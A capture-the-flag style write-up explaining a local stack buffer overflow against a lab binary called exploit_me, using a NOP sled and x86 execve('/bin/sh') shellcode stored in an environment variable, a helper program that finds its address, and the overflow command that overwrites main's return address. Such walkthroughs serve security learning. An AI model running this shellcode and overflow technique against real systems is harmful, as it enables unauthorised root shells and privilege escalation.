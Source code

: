 # writeup2

## using shellcode

In the [previous writeup](writeup.md), we used the `system` function to execute `/bin/sh`. This time, we will use shellcode to do the same thing.

The `zaz` user has a C code in its `.viminfo` that can be used to retrieve the shellcode address in an environment variable. The code is as follows:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char *argv[]) {
    char *ptr;
    if (argc < 3) {
        printf("Usage: %s <environment var> <target program name>\n", argv[0]);
        exit(0);
    }
    ptr = getenv(argv[1]); /* Get env var location. */
    ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
    printf("%s will be at %p\n", argv[1], ptr);
}
```

In our `SHELLCODE` env variable we will pad a few `\x90` to do (NOP sled)[https://en.wikipedia.org/wiki/NOP_slide] and then put our shellcode. This allows us to jump few bytes before the shellcode and still execute it. We can use the following command to get the address of the shellcode:

```sh
export SHELLCODE=$(python -c 'print "\x90"*100')`echo -en "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"`

tee /tmp/exploit.c << EOF
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char *argv[]) {
    char *ptr;
    if (argc < 3) {
        printf("Usage: %s <environment var> <target program name>\n", argv[0]);
        exit(0);
    }
    ptr = getenv(argv[1]); /* Get env var location. */
    ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
    printf("%s will be at %p\n", argv[1], ptr);
}
EOF
gcc -o /tmp/exploit /tmp/exploit.c
/tmp/exploit SHELLCODE exploit_me
SHELLCODE will be at 0xbffff891
```

We can now use this address to overwrite the return address of `main` with the address of the shellcode.

```sh
./exploit_me $(python -c 'import struct;print "A"*140 + struct.pack("I", 0xbffff891)')
```
